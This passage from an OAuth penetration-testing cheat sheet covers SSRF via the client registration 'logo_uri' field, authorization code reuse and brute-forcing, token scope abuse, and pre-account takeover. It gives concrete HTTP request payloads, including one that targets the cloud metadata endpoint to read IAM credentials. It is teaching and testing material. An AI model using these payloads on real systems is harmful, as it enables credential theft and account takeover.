 ```jsx
    3. In Burp Repeater, create a suitable POST request and retrieve registration data like "client_id"
    ----------------------------------------------
    POST /reg
    HTTP/1.1
    Host: TARGET-OAUTH-SERVER.net
    Content-Type: application/json
    { "redirect_uris" : [
     "<https://example.com>" ]
    }
    ---------------------------------------------
    4. Send the GET /client/CLIENT-ID/logo request to Burp Repeater
    5. Go back to "POST /reg" request,Add the "logo_uri" ,test if it's vulnerable to ssrf
    -------------------------------------------------
    POST /reg
    HTTP/1.1
    Host: TARGET-OAUTH-SERVER.net
    Content-Type: application/json
    { "redirect_uris" : [
     "<https://example.com>" ], "logo_uri" :
    "<https://BURP-COLLABORATOR-PAYLOAD>"
    }
    -------------------------------------------------
    6. Try Read meta data files like
       "logo_uri" : "<http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/>"
    ```
### OAUTH Code Flaws
    
```jsx
    1. Can code be reused few times for an hour ?
    2. Can code be brute forced? Is there rate limits?
    3. is code for application X valid for application Y?
    ```
### **Access Token Scope Abuse**
    
 ```python
    <https://www.example.com/admin/oauth/authorize?[>...]&scope=read\\_profile\\
    &redirect_uri=/
    
    If all goes well, you will notice a response that looks something like this:
    
    {
    "access_token": "eyJz93a...k4laUWw",
    "refresh_token": "GEbRxBN...edjnXbL",
    "id_token": "eyJ0XAi...4faeEoQ",
    "token_type": "Bearer"
    
    }
    
    Now use this token to try to access another API endpoint that requires an elevated scope, for example:
    
    <https://www.example.com/api/v2/getCreditCardInfo?access_token=eyJz93a…k4laUWw>
```
### Pre - Account take Over
One of the other more common issues I see is when applications allow “Sign in with X” but also username/password. There are 2 different ways to attack this:
-  If the application does **not require email verification on account creation**, try **creating an account with a victim’s email address and attacker password** before the victim has registered. If the **victim** then tries to register or sign in **with a third party**, such as Google, it’s possible the application will do a lookup, see that email is already registered, then l**ink their Google account to the attacker created account**. This is a “**pre account takeover**” where an attacker will have access to the victim’s account if they created it prior to the victim registering.